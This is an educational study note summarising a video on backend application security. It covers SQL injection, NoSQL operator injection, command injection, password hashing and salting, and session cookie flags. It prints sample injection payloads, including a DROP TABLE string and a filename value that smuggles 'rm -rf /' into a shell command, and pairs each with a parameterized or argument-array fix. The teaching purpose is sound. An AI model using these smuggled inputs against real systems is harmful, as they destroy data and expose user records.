









# Part 20 — Backend Security: Everything You Need to Know

> [!info] Video reference
> **Channel:** Sriniously — **Title:** "20. Backend Security: Everything You Need to Know"
> **URL:** [Watch on YouTube](https://www.youtube.com/watch?v=xB1C1xZZW4k) · **Duration:** ~170 min · **Published:** 2025-12-14

> [!abstract] In this chapter
> This is Part 1 (up to ~1:26) of a comprehensive backend-security chapter. We cover:
> - **The security mindset** — why every backend engineer must think like an attacker
> - **Injection attacks overview** — the "multiple languages" mental model that unifies SQL injection, command injection, XSS, and more
> - **SQL injection deep dive** — string concatenation pitfalls, the classic `' OR 1=1 --` exploit, the `DROP TABLE` variant, UNION-based extraction, rainbow-table amplification, and why even NoSQL is not immune
> - **Parameterized queries / prepared statements** — how they eliminate the data-vs-code confusion at the database-driver level, with before/after pseudocode
> - **Command injection** — OS-level injection through CLI arguments (ffmpeg example), semicolon / pipe / ampersand exploitation, and the argument-array fix
> - **Authentication security & password storage** — plaintext pitfalls, hashing (bcrypt → Argon2id), salting, rainbow-table resistance, slow hashing / cost factors, brute-force economics
> - **Session management & cookie security (start)** — session-ID generation, Redis vs Postgres stores, metadata, and the `HttpOnly` / `Secure` cookie flags

---

### [00:00] Introduction to Security — The Security Mindset

Security of a backend application is one of the most important things an engineer should be aware of. While every topic in backend engineering matters, security is uniquely destructive: if you neglect it, the consequences are **financial**, **reputational**, and sometimes existential for your business.

#### Domains of security (beyond our scope)

| Security domain | What it covers |
|---|---|
| **Browser security** | HTML, cookies, local storage, client-side vulnerabilities |
| **Network security** | HTTP/HTTPS, TLS encryption, compression |
| **Server (OS) security** | Operating-system hardening, patching, firewall rules |
| **Backend (application) security** | Vulnerabilities in the code you write — *this chapter's focus* |

Trying to cover all four in one video would go far out of scope. For a backend-engineering context we limit ourselves to the set of vulnerabilities and rules most relevant to application code.

#### The goal: paranoia, not a checklist

The video's aim is **not** to hand you a grab-bag of fancy techniques you can mechanically copy-paste into production. Security is a vast domain; no single video can be exhaustive. Instead, the goal is to **make you paranoid about your own code** — to give you a mental model that keeps security at the back of your head whenever you write any kind of application.

> [!important] No application is ever *truly* secure.
> Technology evolves, libraries evolve, programming languages evolve — there will always be new vulnerabilities. But we must try our best.

#### The one question attackers ask

Attackers (the term preferred over "hacker" to avoid cliché) do not care about your framework, library, or language. They care about a single question:

> **Where did the developer make an assumption?**

Every vulnerability in this chapter traces back to a developer who assumed:
- User input from the front-end would be *clean*.
- The user was who they claimed to be.
- Requests arriving at the server were genuinely from the expected front-end.
- No one would open the browser's Network tab, inspect calls, and tamper with parameters.

Under deadline pressure — especially in startups — these assumptions feel reasonable. You think in the *happy path*: the user fills the form correctly, clicks the right buttons, navigates as intended. But attackers do the opposite: they poke at every boundary, modify every input, and try to **guess every one of your assumptions**.

By the end of this chapter you should be asking *constantly*:

> **What could go wrong here in terms of security?**

regardless of language (Go, Python, Node.js, Rust) or framework.

---

### [04:36] Injection Attacks Overview — The "Multiple Languages" Mental Model

Injection attacks have been around for **decades** and are still remarkably common. They all share the **same root cause**, and once you understand that root cause you understand an entire category of vulnerabilities.

#### Your application speaks multiple languages

Consider a typical backend application:



**What this diagram shows:** A backend application acts as a hub that "speaks" multiple languages simultaneously — SQL when talking to the database, shell commands when interacting with the OS, HTML/CSS/JS when serving static content. Each language has its own grammar, special characters, and rules for separating commands from data.

Each of these languages has its own **grammar**, its own set of **special characters**, and its own rules for **separating commands from data**. This is where most vulnerabilities originate.

#### How injection happens

The user interacts with the backend through a browser, speaking HTML/CSS/JS. When user input **crosses the boundary** from one language into another — e.g., from the browser into SQL or into a shell command — vulnerabilities arise.

Input that is perfectly valid in one language may contain **special characters or commands** that have a completely different meaning in the target language. This language-boundary crossing is the root cause of injection attacks (SQL injection, XSS, command injection, etc.).

---

### [07:55] SQL Injection Deep Dive

SQL injection (SQLi) is one of the most dangerous and common injection attacks. It works by tricking the backend into treating **user-supplied data as SQL code**.

#### Scenario: a login page

Consider a simple login form with **email** and **password** fields:



**What this diagram shows:** In the normal login flow, the user submits credentials, the server interpolates the email into a SQL query template, and the database returns matching rows. If a row is found and the password matches, login succeeds. The vulnerability exists because the server **concatenates user input directly into the SQL string**.

#### The happy path

For a legitimate user `alice@gmail.com`, the server builds:

```sql
SELECT * FROM users WHERE email = 'alice@gmail.com';
```

The database finds the row, the server verifies the password, and login succeeds. Everything works perfectly.

#### Setting up a test database (demo)

In the video, a PostgreSQL table is created via a DB explorer (TablePlus):

```sql
CREATE TABLE users (
    name  TEXT,
    email TEXT
);

INSERT INTO users (name, email) VALUES
    ('Alice', 'alice@gmail.com'),
    ('Bob',   'bob@gmail.com');
```

Running `SELECT * FROM users WHERE email = 'alice@gmail.com';` returns Alice's row — the expected behavior.

#### The attack: `' OR 1=1 --`

Instead of a valid email, the attacker types:

```
' OR '1'='1' --
```

Because the server builds the query via **string concatenation**, the resulting SQL becomes:

```sql
SELECT * FROM users WHERE email = '' OR '1'='1' --';
```

Let us break this down piece by piece:

| Fragment | Meaning |
|---|---|
| `WHERE email = ''` | The attacker's opening `'` closed the original quote pair, producing an empty-string comparison. This is always **false** (no email is `''`). |
| `OR '1'='1'` | The `OR` operator means *either side can be true*. The string literal `'1'='1'` is **always true**. |
| `--` | In SQL, `--` starts a **line comment**. Everything after it (the trailing `'` and anything else) is ignored by the parser. |

Because `false OR true = true`, the `WHERE` clause is satisfied for **every row**. The query effectively becomes:

```sql
SELECT * FROM users;
```

The attacker receives **all users and their emails** — even though they provided no valid email. In a production database the `users` table would likely contain hashed passwords, addresses, phone numbers, and other PII.

> [!danger] The `--` comment is critical
> Without it, the trailing `'` left over from the template would cause a **syntax error**. The `--` silences that quote, making the injected query valid SQL.

Running the malicious query in the demo database returns **both** Alice and Bob's rows, confirming the exploit.

#### Why `'1'='1` and not `1=1`?

The video emphasizes that the injected `1` values are wrapped in **single quotes** (`'1'='1'`), making them string comparisons. This ensures they merge cleanly with the surrounding single-quote syntax of the template. The result — a tautology — is the same.

#### A more destructive variant: `DROP TABLE`

The attacker can do far worse than reading data. Consider:

```
' ; DROP TABLE users; --
```

The server concatenates this into:

```sql
SELECT * FROM users WHERE email = '' ; DROP TABLE users; --';
```

This is **two separate SQL statements** separated by a semicolon:

1. `SELECT * FROM users WHERE email = ''` — returns an empty set (harmless).
2. `DROP TABLE users;` — **deletes the entire users table**.

The `--` again comments out the trailing quote to avoid a syntax error.

> [!note] Modern DB drivers may block multi-statement execution
> Most modern database drivers (and tools like TablePlus) **by default block back-to-back SQL statements** as a safety mechanism. But older drivers, misconfigured drivers, or certain raw-query modes may **not** have this protection. Never rely on it as your sole defense.

#### Advanced exploitation techniques

A skilled attacker with an SQL injection vulnerability can:

- Use **`UNION` statements** to extract data from *other* tables (e.g., payment information, admin credentials).
- Use **database-specific functions** (e.g., `pg_read_file()` in PostgreSQL) to read files from the server's file system.
- In some configurations, **execute operating-system commands** directly through the database.

SQL injection has been one of the most destructive vulnerability classes for decades because the attack surface is enormous.

#### The root cause: data vs. code confusion

Applying the "multiple languages" mental model:

- **Single quote** (`'`): In SQL, it delimits string literals. Anything inside a pair of single quotes is treated as *data*.
- **Semicolon** (`;`): Separates two distinct SQL statements. It tells the parser *this command is over, the next one begins*.
- **Double dash** (`--`): Starts a comment. The parser ignores everything after it.
- **Keywords** (`OR`, `DROP`, `WHERE`, etc.): Have specific semantic meaning.

When we concatenate user input directly into a SQL template, we are **trusting** that the input contains none of these special characters. That trust is misplaced — even a benign user might accidentally type a single quote in their name.

> [!summary] Essence of all injection attacks
> What was supposed to be **data** (user input) became **code** (SQL commands) because the special characters in the input had overlapping meanings in the target language. This confusion between *code* and *data* is the fundamental cause of every injection attack.

---

### [29:27] Parameterized Queries (Prevention)

The definitive fix for SQL injection is **parameterized queries** (also called **prepared statements**). Every modern database driver and every ORM uses them by default.

#### Before (vulnerable — string concatenation)

```
query = "SELECT * FROM users WHERE email = '" + userInput + "'"
```

The user input is mashed directly into the SQL string. Special characters in the input are interpreted as SQL syntax.

#### After (safe — parameterized query)

```
statement = "SELECT * FROM users WHERE email = $1"

db.execute(statement, [userInput])
```

Two things are sent to the database **separately**:

| Parameter | What it contains |
|---|---|
| **Statement** (1st arg) | The SQL template with a **placeholder** (`$1`, `?`, `:name`, etc. — syntax varies by language/driver). Contains **zero user data**. |
| **Values** (2nd arg) | An array/object of the actual runtime values that fill the placeholders. Purely **data**. |

#### How it works internally

1. The database driver sends the **statement template** to the DB engine first. The DB engine **parses and compiles** the SQL — it already knows the structure of the query.
2. The driver then sends the **parameter values** separately. The DB engine **binds** these values into the already-compiled plan.

Because the DB engine has already decided the query structure before seeing the data, there is **no ambiguity** between code and data. The parameter values are always treated as **literal data** — never as SQL syntax.

#### What happens with malicious input under parameterized queries

If the attacker passes `' OR '1'='1' --` as the email parameter:

```sql
SELECT * FROM users WHERE email = ''' OR ''1''=''1'' --'
```

The database treats the entire string — **including the single quotes, the `OR`, the `1=1`, and the `--`** — as a single literal email value. No row will match this literal string, so the query simply returns **zero rows**. No data is leaked, no tables are dropped.

> [!tip] Validation is still valuable
> Even with parameterized queries, a **validation layer** should catch obviously non-email strings before they reach the query. But parameterized queries are the **last line of defense** — if validation is weak or bypassed, the driver still protects you.

#### NoSQL is not immune

Some might assume that using MongoDB or another document database eliminates injection risk because "I don't write SQL." This is incorrect.

In MongoDB, queries are represented as JSON objects. If your application accepts a JSON object from the user and passes it **directly** to a database query, an attacker can inject **MongoDB operators**:

- `{ $ne: null }` — "not equal to null"
- `{ $gt: "" }` — "greater than empty string"
- `{ $exists: true }` — "field exists"

These operators are specified as nested objects with keys starting with `$`. If the attacker controls the **structure** of the query object (not just the value), they can manipulate the query logic — the exact same principle as SQL injection, adapted to a document-database context.

> [!note]
> If you are using MongoDB or a NoSQL database in the first place, the video's author suggests you may have "bigger concerns than worrying about security." (A tongue-in-cheek remark about choosing the right database for the job.)

#### General rule for all injection types

Whenever you build a string that will be **interpreted by another system** (database, shell, HTML parser, LDAP, XML, etc.) and that string includes **any user input**:

> **Stop.** Find a parameterized alternative. Do **not** use string concatenation or template literals to mix user input with control syntax. A parameterized alternative almost always exists.

---

### [39:43] Command Injection (OS Command Injection)

Command injection is structurally identical to SQL injection but targets the **operating system** instead of a database.

#### How it works

Suppose your web app allows users to upload images and specify an output filename. Your backend processes the image using a CLI tool like `ffmpeg`:

```
ffmpeg -i input.jpg -h 120 -w 220 -o <user_input>
```

The user's chosen filename is concatenated directly into the shell command. In the normal case the command becomes:

```
ffmpeg -i input.jpg -h 120 -w 220 -o output.jpg
```

But if the attacker supplies:

```
output.jpg ; rm -rf /
```

The shell sees **two commands** separated by a semicolon:

```
ffmpeg -i input.jpg -h 120 -w 220 -o output.jpg
rm -rf /
```

The second command **recursively deletes the entire root filesystem**.

#### Other shell metacharacters

Attackers can use more than semicolons:

| Character | Effect |
|---|---|
| `;` | Command separator — runs the next command unconditionally |
| `\|` (pipe) | Redirects output of one command as input to another |
| `&&` | Runs the next command only if the first succeeds |
| `&` | Runs the command **in the background** (can act as persistent spyware) |
| `` ` `` or `$()` | Command substitution — executes embedded commands |

Each shell (bash, zsh, fish) has its own set of special characters and escape sequences. A skilled attacker can research these and craft creative exploits.

#### The fix: separate command from arguments

The fix is the same principle as parameterized queries: **separate code from data**.

Most programming languages (Node.js, Go, Python, etc.) provide functions that accept the command and its arguments as **separate parameters**, bypassing the shell interpreter entirely:

```
# Instead of:
exec("ffmpeg -i input.jpg -o " + userInput)  # DANGEROUS — passes through shell

# Use the argument-array form:
exec("ffmpeg", ["-i", "input.jpg", "-o", userInput])  # SAFE — no shell interpretation
```

When you use the argument-array form, the user input is passed **directly to the process** as a string argument — it never goes through the shell interpreter. The shell never sees or interprets the special characters, so `;`, `|`, `&`, etc. are treated as **literal characters**, not commands.

> [!warning] The universal rule
> Whenever you are building a string that will be **interpreted by another system** (SQL, shell, HTML, LDAP, XML — anything) and that string includes **user input**: **stop and think**. Always find a parameterized alternative. Never mix user input with control syntax via string concatenation or template strings.

---

### [45:25] Authentication Security & Password Storage

Even if you use an Auth provider (recommended — see below), understanding authentication internals is essential for secure integration and configuration.

#### Use an Auth provider if you can

Before diving into technical details: **if you have the budget, use a third-party Auth provider** (e.g., Clerk, Auth0, Supabase Auth). The benefits go far beyond security:

1. **Time savings** — building a production-grade auth flow (stateful sessions, OAuth/social login, account linking, session revocation, device tracking) takes weeks.
2. **Security** — these are security companies with dedicated teams thinking about edge cases 24/7. They respond to new attack vectors quickly.
3. **User experience** — modern providers offer polished sign-in UIs, social login, RBAC, and advanced security features out of the box.

When your auth provider bill crosses \$10k–\$20k/month, you'll likely have the revenue and developer bandwidth to migrate to a self-hosted solution. Until then, the tradeoff is almost always worth it.

#### Why plaintext password storage is catastrophic

The naïve approach is storing the user's password **as-is** in a database column:

```
| name  | email            | password  |
|-------|------------------|-----------|
| Alice | alice@gmail.com  | 12345     |
```

Problems with plaintext storage:

1. **Database breaches happen constantly.** Companies of all sizes get breached — by insiders, through third-party compromises, via misconfigurations. When a plaintext database leaks, *every user's password is exposed*.
2. **Credential reuse.** Over 70% of users reuse passwords across multiple sites. A leaked email+password combo can be tried against banking, e-commerce, and social-media sites (credential-stuffing attacks). Users are often unaware breaches occurred.
3. **Internal visibility.** Developers, DBAs, contractors, and freelancers with database access can see every user's password in plain text. You are trusting every one of them with your users' entire online presence.

#### Level 2: hashing

A **hash function** has three critical properties:

| Property | Description |
|---|---|
| **Deterministic** | The same input always produces the same output. |
| **Fixed-length output** | Regardless of input length (1 char or 1000 chars), the output is always the same length (e.g., 60 chars for bcrypt). |
| **One-way (pre-image resistant)** | It is computationally infeasible to recover the input from the output. |

Instead of storing `12345`, you store `bcrypt("12345")` → `$2b$10$N9qo8uLOickgx2ZMRZoMy...` (a fixed-length hash string).

**Login flow with hashing:**
1. User signs up with password `12345`. Server hashes it and stores the hash.
2. User logs in with `12345`. Server hashes the submitted password and **compares the two hashes**.
3. If they match → the user entered the correct password → allow login.

**If the database is breached:** the attacker gets only **hashes**, not plaintext passwords. Because hashing is one-way, they cannot recover the original passwords.

#### Rainbow tables: why plain hashing isn't enough

Attackers know that most users choose **common passwords** (`password`, `12345`, `qwerty`, etc.). They build **rainbow tables** — precomputed lookup tables mapping common passwords to their hashes:

```
| password (plaintext) | hash                              |
|-----------------------|-----------------------------------|
| 12345                 | $2b$10$xJ8a...hashA               |
| password              | $2b$10$kQ3f...hashB               |
| password123           | $2b$10$mN7d...hashC               |
```

When they obtain a breached hash database, they **look up each hash** in their rainbow table. If a match is found, the plaintext password is revealed. Because the same input always produces the same hash (determinism), this works for every user who chose a common password.

#### Level 3: salting

**Salting** defeats rainbow tables by ensuring that the same password produces **different hashes** for different users.

**How it works:**

1. When a user signs up, generate a **random salt** — a unique, cryptographically secure random string stored alongside the user's record.
2. Hash the **concatenation** of the password and the salt: `hash(password + salt)`.
3. Store **both** the hash and the salt in the database.

**Database row example:**

```
| name  | email            | salt (random) | hashed_password        |
|-------|------------------|---------------|------------------------|
| Alice | alice@gmail.com  | SP3k...rand   | hash("12345" + salt)   |
```

**Why this defeats rainbow tables:**

- The rainbow table contains `12345 → hash("12345")`.
- Alice's stored hash is `hash("12345" + SP3k...rand)`, which is a **completely different string**.
- The lookup produces **zero matches**. Even though Alice's password *is* `12345`, the salt ensures the stored hash looks nothing like the precomputed entry.

Each user gets a unique salt, so even two users with the identical password will have different stored hashes.

> [!tip] Salt storage
> The salt is **not** secret — it is stored right next to the hash in the database. Its purpose is not confidentiality; it is to **break the deterministic mapping** that rainbow tables exploit.

#### Level 4: slow hashing (cost factor / work factor)

Modern GPUs can compute **billions** of SHA-256 or MD5 hashes per second. Even with salting, an attacker can perform an **offline brute-force attack**: for each user, take their salt, try billions of common passwords, hash each with the salt, and compare against the stored hash.

To counter this, we use **slow hashing algorithms** — purpose-built for password storage:

| Algorithm | Notes |
|---|---|
| **bcrypt** | Long-time industry standard. Has a configurable cost factor. |
| **Argon2id** | **Current industry standard.** Winner of the Password Hashing Competition. Memory-hard (resistant to GPU/ASIC attacks). |
| **SHA-256, MD5** | General-purpose hash functions. **Do not use for passwords.** GPUs compute them at billions/second. |

Slow hashing algorithms have a **cost factor** (also called **work factor**) that controls how computationally expensive each hash is. You tune this based on your server's capacity:

- **Cost factor set to take ~400ms per hash:**
  - For a **genuine user** logging in: 400–600ms of latency is imperceptible. Barely noticeable.
  - For an **attacker** brute-forcing offline: their throughput drops from **billions of guesses/second** to **~4–5 guesses/second**. Cracking a password that would have taken days now takes **decades or centuries**.

> [!note] Resources
> The video recommends [Lucia Auth](https://lucia-auth.com/) (now more of a guidance/documentation project than a library) as an excellent resource for understanding secure authentication mechanics and industry best practices.

---

### [1:07:17] Session Management & Cookie Security

Once a user has proven their identity (authentication), the server needs to **remember** that fact across requests without requiring the user to re-enter their password each time. This is what **sessions** are for.

#### Session creation flow (stateful authentication)

When a user successfully logs in, the server does three things:

1. **Generates a random session identifier** — a cryptographically secure random string, ideally 128–256 characters/bits long.
2. **Stores the session ID** (plus metadata) in a persistent store — Redis (fast, recommended) or a primary database (PostgreSQL, MySQL).
3. **Sends the session ID to the browser** via a **cookie**.

```mermaid
sequenceDiagram
    participant U as 👤 Browser
    participant S as 🖥 Server
    participant R as ⚡ Redis / DB

    U->>S: POST /login {email, password}
    S->>S: Verify credentials (hash comparison)
    S->>S: Generate random session ID (128-256 bits, CSPRNG)
    S->>R: Store {sessionID, userID, metadata}
    S-->>U: Set-Cookie: session=<sessionID>; HttpOnly; Secure; SameSite=...
    U->>U: Browser stores cookie
    loop Every subsequent request
        U->>S: Request + Cookie: session=<sessionID>
        S->>R: Look up sessionID → userID
        S->>S: Process request as that user
    end
```

**What this diagram shows:** On login, the server generates a cryptographically random session ID, stores it with metadata in Redis or Postgres, and sends it to the browser as a cookie. Every subsequent request includes that cookie, allowing the server to look up the associated user without requiring re-authentication.

#### Why the session ID must be cryptographically random

If an attacker can **guess** a session ID, they can hijack that user's session. A 128-bit random ID has more possible values than there are **atoms in the observable universe** — making brute-force guessing practically impossible.

#### Session metadata stored alongside the ID

| Metadata field | Purpose |
|---|---|
| **User ID** | Which user owns this session |
| **Creation time** | Enables timeout and expiry |
| **Expiry time** | When the session becomes invalid (e.g., 7 days) |
| **IP address** | Show login locations in user dashboard |
| **User agent** | Device/browser type (Chrome on Android, Firefox on Linux, etc.) |
| **Revocation status** | For invalidating sessions on demand |

#### Cookie security flags

The video introduces two critical cookie flags (a third, `SameSite`, is covered later):

##### `HttpOnly: true`

When set, **JavaScript cannot access this cookie** — neither `document.cookie` nor any client-side script. This protects the session ID from **XSS (Cross-Site Scripting)** attacks: even if an attacker manages to inject malicious JavaScript into your site, they cannot read the session cookie.

> [!danger] Never store auth tokens in `localStorage`
> Storing JWTs or session IDs in `localStorage` leaves them fully accessible to JavaScript. If your site has *any* XSS vulnerability, the attacker can steal them. **Always use `HttpOnly` cookies** for authentication credentials.

##### `Secure: true`

When set, the browser **only sends this cookie over HTTPS connections**. If the connection is plain HTTP (e.g., someone on the same network is sniffing traffic), the cookie is never transmitted. This prevents session hijacking via network eavesdropping.

> [!tip] These flags are non-negotiable
